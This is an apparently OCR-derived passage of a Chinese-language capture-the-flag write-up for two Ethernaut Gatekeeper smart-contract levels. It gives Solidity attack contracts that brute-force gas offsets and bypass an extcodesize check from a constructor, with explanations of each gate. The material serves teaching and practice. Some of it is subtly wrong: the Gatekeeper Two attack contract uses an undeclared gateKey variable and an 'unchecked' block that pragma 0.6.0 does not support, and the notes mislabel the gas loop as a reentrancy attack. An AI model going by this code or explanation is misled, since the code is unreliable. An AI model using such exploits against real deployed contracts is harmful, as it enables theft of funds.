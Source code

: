 ```solidity
    }

    function attack(bytes8 _gateKey) public {
        for (uint256 i = 0; i < 8191; i++) {
            (bool success, ) = target.call{gas: i + 8191 * 3}(
                abi.encodeWithSignature("enter(bytes8)", _gateKey)
            );
            if (success) {
                break;
            }
        }
    }
}
```

学习要点：
- 理解 GateKey 的设计原理
- 使用 for 循环来反复攻击到gasleft() % 8191 == 0， call 函数进行重入攻击
- 了解 msg.sender 和 tx.origin 的区别

## 14. Gatekeeper Two ✅ [Hard]

这关主要考察对访问控制、位操作和内联汇编的理解：
- 内联汇编：内联汇编是 Solidity 中的一种低级语言，用于直接在 Solidity 代码中编写汇编代码。

攻击思路：
1. Gate Two中使用内联汇编 extcodesize 检查调用者地址的代码大小：
extcodesize(caller()) 获取调用者（msg.sender）地址的代码大小。
如果调用者是合约地址，extcodesize 会返回合约代码的大小。
要求 extcodesize 返回 0，说明调用者不能是一个已经部署好的合约。
也即：需要在构造函数中调用目标合约来攻击，合约的构造函数执行期间，extcodesize 返回 0，因为合约的代码还没有部署。

2. Gate Three就很简单，uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1。

3.设计攻击合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttack {
    constructor(address target) public {
        // 计算 _gateKey
        unchecked {
            gateKey = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1);
        }

        // 调用 enter 函数
        GatekeeperTwo(target).enter(gateKey);
    }
}
```
